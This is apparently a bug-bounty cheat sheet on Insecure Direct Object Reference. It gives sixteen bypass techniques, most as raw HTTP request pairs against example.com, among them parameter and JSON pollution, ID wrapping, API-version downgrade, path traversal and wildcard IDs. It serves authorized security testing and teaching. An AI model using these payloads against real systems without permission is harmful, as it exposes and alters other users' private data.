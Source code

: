 # Insecure Direct Object Reference (IDOR)

## Introduction
IDOR stands for Insecure Direct Object Reference is a security vulnerability in which a user is able to access and make changes to data of any other user present in the system.

## Where to find
- Usually it can be found in APIs.
- Check the HTTP request that contain unique ID, for example `user_id` or `id`

## How to exploit
1. Add parameters onto the endpoints for example, if there was
```
GET /api/v1/getuser HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /api/v1/getuser?id=1234 HTTP/1.1
Host: example.com
...
```

2. HTTP Parameter pollution
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

user_id=hacker_id&user_id=victim_id
```

3. Add .json to the endpoint
```
GET /v2/GetData/1234 HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /v2/GetData/1234.json HTTP/1.1
Host: example.com
...
```

4. Test on outdated API Versions
```
POST /v2/GetData HTTP/1.1
Host: example.com
...

id=123
```
Try this to bypass
```
POST /v1/GetData HTTP/1.1
Host: example.com
...

id=123
```

5. Wrap the ID with an array.
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":111}
```
Try this to bypass
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"id":[111]}
```

6. Wrap the ID with a JSON object
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":111}
```
Try this to bypass
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":{"user_id":111}}
```

7. JSON Parameter Pollution
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":"hacker_id","user_id":"victim_id"}
```

8. Try decode the ID, if the ID encoded using md5,base64,etc
```
GET /GetUser/dmljdGltQG1haWwuY29t HTTP/1.1
Host: example.com
...
```
dmljdGltQG1haWwuY29t => victim@mail.com

9. If the website using GraphQL, try to find IDOR using GraphQL
```
GET /graphql HTTP/1.1
Host: example.com
...
```
```
GET /graphql.php?query= HTTP/1.1
Host: example.com
...
```

10.  MFLAC (Missing Function Level Access Control)
```
GET /admin/profile HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /ADMIN/profile HTTP/1.1
Host: example.com
...
```

11. Try to swap uuid with number
```
GET /file?id=90ri2-xozifke-29ikedaw0d HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /file?id=302
Host: example.com
...
```

12. Change HTTP Method
```
GET /api/v1/users/profile/111 HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
POST /api/v1/users/profile/111 HTTP/1.1
Host: example.com
...
```

13. Path traversal
```
GET /api/v1/users/profile/victim_id HTTP/1.1
Host: example.com
...
```
Try this to bypass
```
GET /api/v1/users/profile/my_id/../victim_id HTTP/1.1
Host: example.com
...
```

14. Change request `Content-Type`
```
GET /api/v1/users/1 HTTP/1.1
Host: example.com
Content-type: application/xml
```
Try this to bypass
```
GET /api/v1/users/2 HTTP/1.1
Host: example.com
Content-type: application/json
```

15. Send wildcard instead of ID
```
GET /api/users/111 HTTP/1.1
Host: example.com
```
Try this to bypass
```
GET /api/users/* HTTP/1.1
Host: example.com
```
```
GET /api/users/% HTTP/1.1
Host: example.com
```
```
GET /api/users/_ HTTP/1.1
Host: example.com
```
```
GET /api/users/. HTTP/1.1
Host: example.com
```
16. Try google dorking to find new endpoint

## References 
* [@swaysThinking](https://twitter.com/swaysThinking) and other medium writeup
